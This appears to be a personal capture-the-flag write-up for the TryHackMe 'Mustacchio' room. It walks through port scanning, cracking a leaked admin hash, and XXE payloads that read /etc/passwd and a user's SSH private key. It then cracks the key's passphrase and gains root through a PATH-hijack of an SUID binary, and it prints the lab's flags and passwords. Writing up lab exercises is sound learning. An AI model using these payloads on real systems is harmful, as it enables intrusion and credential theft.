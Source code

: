 https://tryhackme.com/room/mustacchio

### Nmap

```
   │   ~/De/TH/mustacchio ▓▒░ nmap -p- -T5 --min-rate=10000 10.10.137.250              ░▒▓ ✔ │ 26s   │ 19:51:33   
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-02 19:54 IST
Nmap scan report for 10.10.137.250
Host is up (0.14s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8765/tcp open  ultraseek-http
```


### HTTP 1

- port 80 has a blog page with nothing in source code 

- found this in feroxbuster

http://10.10.137.250/custom/js/users.bak

- on viewing the contents i can see 

```
   │   ~/De/TH/mustacchio ▓▒░ strings users.bak                                         ░▒▓ ✔ │ 7s   │ 20:17:02   
SQLite format 3
tableusersusers
CREATE TABLE users(username text NOT NULL, password text NOT NULL)
]admin1868e36a6d2b17d4c2745f1659433a54d4bc5f4b
```


- cracked the hash at https://hashes.com/en/decrypt/hash

`1868e36a6d2b17d4c2745f1659433a54d4bc5f4b:bulldog19`


### HTTP 2

- http://10.10.137.250:8765/ is a login page

we are able to login with

`admin:bulldog19`


- we are redirected to http://10.10.137.250:8765/home.php.

when we comment something we get this in the browser response

```
    <script type="text/javascript">
      //document.cookie = "Example=/auth/dontforget.bak"; 
      function checktarea() {
      let tbox = document.getElementById("box").value;
      if (tbox == null || tbox.length == 0) {
        alert("Insert XML Code!")
      }
  }
</script>
```

- On viewing the http://10.10.137.250:8765/auth/dontforget.bak
it downloads the file

```
   │   ~/Desktop/THM/mustacchio ▓▒░ strings dontforget.bak                                      ░▒▓ ✔ │ 20:18:06   
<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could
ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could
ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
</comment>
```

- we get two potential usernames
Joe Hamd & Barry Clad

- also as per the above script, if we submit a blank comment, we get an alert saying `Insert XML code here`

- searched for `xml revers shell ` but nothing useful found and used the writeup


also found out the there is also another way of opening and viewing the `.bak` files using

```
reddevil@ubuntu:~/Documents/tryhackme/mustacchio$ sqlite3 users.bak
SQLite version 3.31.1 2020-01-27 19:55:54
```

- missed this comment on the page 

`   <!-- Barry, you can now SSH in using your key!-->`


- we should be able to get into the machineby exploiting XXE and retireving barry's SSH private key

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#detect-the-vulnerability

here we can use ## [Exploiting XXE to retrieve files](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#exploiting-xxe-to-retrieve-files)



- but in this case we have to use the below template for xml code

```
<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>his parot noticed, you have wasted an estimated time of 20 seconds.</com>
</comment>
```

this worked 


- updated the payload to 

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'> ]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>his parot noticed, you have wasted an estimated time of 20 seconds.</com>
</comment>
```

- this didnt work so copying the writeup one now

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'> ]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&test;</com>
</comment>
```

now it returns the `/etc/passwd` contents wtf



now changing the file lcoation to `'file:///home/barry/.ssh/id_rsa'`

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///home/barry/.ssh/id_rsa'> ]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&test;</com>
</comment>
```

we get the private rsa key of `barry`


- but when trying to login we get to know that it is encrypted
`Enter passphrase for key 'id_rsa':`


- now using 
```
  │   ~/De/THM/mustacchio ▓▒░ sudo python2 /usr/share/john/ssh2john.py id_rsa > forjohn.txt  ░▒▓ 1 ✘ │ 20:59:02   
[sudo] password for glack: 

   │   ~/De/TH/mustacchio ▓▒░ john forjohn.txt --wordlist=/usr/share/wordlists/rockyou.txt 

```

`urieljames       (id_rsa)`

- we we ssh into the machine as barry

### Priv Esc

- `barry@mustacchio:~$ find / -type f -perm -u=s -ls 2>/dev/null`

we find a custom suid bit binary

` 257605     20 -rwsr-xr-x   1 root     root          16832 Jun 12  2021 /home/joe/live_log`\

- on running the binary we are shown some sorts of logs on the `8765` port number 

- strings gives this command being run in the binary
```
Live Nginx Log Reader
tail -f /var/log/nginx/access.log
```

here we can see that the full path of the tail binary is not being used


we can exploit this [[custom binary]]

- To exploit this, I went to the “/tmp” folder, created my own “tail” binary, added this one to the path and executed it again.

```bash
echo '/bin/bash' > tail
chmod 777 tail
export PATH=/tmp:$PATH
/home/joe/live_log
```

And with this I got root rights.


```
root@mustacchio:/tmp# id
uid=0(root) gid=0(root) groups=0(root),1003(barry)
```


- And the flags

```
root@mustacchio:~# cat user.txt 
62d77a4d5f97d47c5aa38b3b2651b831


root@mustacchio:/root# cat root.txt 
3223581420d906c4dd1a5f9b530393a5

```

